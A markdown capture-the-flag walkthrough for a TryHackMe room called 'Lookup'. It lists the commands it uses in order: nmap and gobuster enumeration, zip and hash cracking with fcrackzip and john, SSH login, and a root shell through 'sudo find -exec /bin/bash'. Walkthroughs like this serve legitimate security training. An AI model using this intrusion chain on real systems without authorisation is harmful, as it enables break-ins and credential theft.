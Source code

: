 
# TryHackMe - Lookup Walkthrough

**Target IP**: `10.10.56.153`  
**Room**: [Lookup](https://tryhackme.com/room/lookup)

---

## 1. Reconnaissance

### Nmap Scan

Begin with an Nmap scan to find open ports and services:

```bash
nmap -sC -sV -Pn 10.10.56.153
```

**Findings**:
- **Port 22** – OpenSSH 7.2p2
- **Port 80** – Apache httpd 2.4.18

---

## 2. Exploring the Web Server

Visiting `http://10.10.56.153` in the browser shows a basic webpage with limited content.

### Directory Bruteforce

Run a directory scan to uncover hidden files or directories:

```bash
gobuster dir -u http://10.10.56.153 -w /usr/share/wordlists/dirb/common.txt
```

**Discovered**: `/robots.txt`  
Inside it: `AdminArea` and `backups`

### Navigating to `/backups`

We find a file named `backup.zip`. Download it:

```bash
wget http://10.10.56.153/backups/backup.zip
```

---

## 3. Investigating the Backup

The zip is password-protected. Use `fcrackzip` to brute-force:

```bash
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt backup.zip
```

Password found: `magicword`

Unzip it:

```bash
unzip backup.zip
```

The extracted file is `backup.sql`.

---

## 4. Analyzing the SQL File

Open `backup.sql`. It contains database info, including what looks like a hashed password and username (`admin:hash`).

Use an online hash identifier or `hash-identifier` to confirm the hash type (e.g., MD5/SHA1).

Try cracking it with:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashfile
```

Recovered password: `qwerty789`

---

## 5. SSH Access

Using the credentials:

```bash
ssh admin@10.10.56.153
Password: qwerty789
```

We're in as `admin`.

---

## 6. Privilege Escalation

Check sudo privileges:

```bash
sudo -l
```

We can run `/usr/bin/find` as root.

Use this to escalate:

```bash
sudo find . -exec /bin/bash \; -quit
```

You now have root access.

---

## 7. Flags

- **User flag**: Found in `/home/admin/user.txt`
- **Root flag**: Located in `/root/root.txt`

---

## Summary

This room emphasizes web enumeration, zip cracking, and Linux privilege escalation via `find`. A great beginner-level CTF that teaches essential pentesting skills.

---

✅ *Completed by [YourName]*  
🗂️ Path: `/tryhackme/lookup.md`
